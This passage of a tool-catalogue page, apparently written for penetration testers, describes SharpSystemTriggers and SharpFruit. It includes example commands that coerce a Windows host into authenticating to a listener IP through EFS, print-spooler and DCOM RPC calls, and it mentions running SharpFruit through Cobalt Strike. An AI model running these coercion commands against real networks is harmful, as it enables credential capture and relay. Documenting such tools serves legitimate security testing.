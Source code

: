 ### **Functionality**

- **Midl2Bytes**: Converts MIDL compiler output to a C# byte array, facilitating the integration of RPC calls into C# projects.
- **SharpEfsTrigger**: Implements the MS-EFS (Encrypting File System) RPC protocol in C#. It can be used to trigger remote authentication via EFS.
- **SharpSpoolTrigger**: Implements the MS-RPRN (Print System Remote Protocol) RPC protocol in C#. Useful for triggering remote authentication via print spooler service.
- **SharpDcomTrigger**: Implements DCOM (Distributed Component Object Model) Potato triggers. It's used for triggering remote authentication via DCOM.

### **Example Commands**

- **Convert MIDL Output to C# Byte Array**:
    
    ```
    Midl2Bytes.exe ms-rprn_c.c
    
    ```
    
- **Trigger Remote Authentication via EFS**:
    
    ```php
    SharpEfsTrigger.exe <Target IP> <Listener IP> <API call>
    SharpEfsTrigger.exe 192.168.1.10 192.168.1.250 EfsRpcEncryptFileSrv
    
    ```
    
- **Trigger Remote Authentication via Print Spooler Service**:
    
    ```php
    SharpSpoolTrigger.exe <Target IP> <Listener IP> <API call>
    SharpSpoolTrigger.exe 192.168.1.10 192.168.1.250 RpcAddPrinterDriverEx
    
    ```
    
- **Trigger Remote Authentication via DCOM**:
    
    ```php
    SharpDcomTrigger.exe <Target IP> <Listener IP> <API call>
    SharpDcomTrigger.exe 192.168.1.10 192.168.1.250 <DCOM Trigger Function>
    
    ```
    

SharpSystemTriggers provides a suite of tools for advanced network interactions and security testing, particularly useful in scenarios involving remote authentication and protocol exploitation.

## **SharpFruit**

### **Description**

SharpFruit is a C# port of the PowerShell script Find-Fruit.ps1. It is designed to help penetration testers identify potentially interesting targets on internal networks without the need for extensive nmap scanning. SharpFruit can be executed through various means, such as Cobalt Strike's Beacon "execute-assembly" module, making it a versatile tool in a pentester's arsenal.
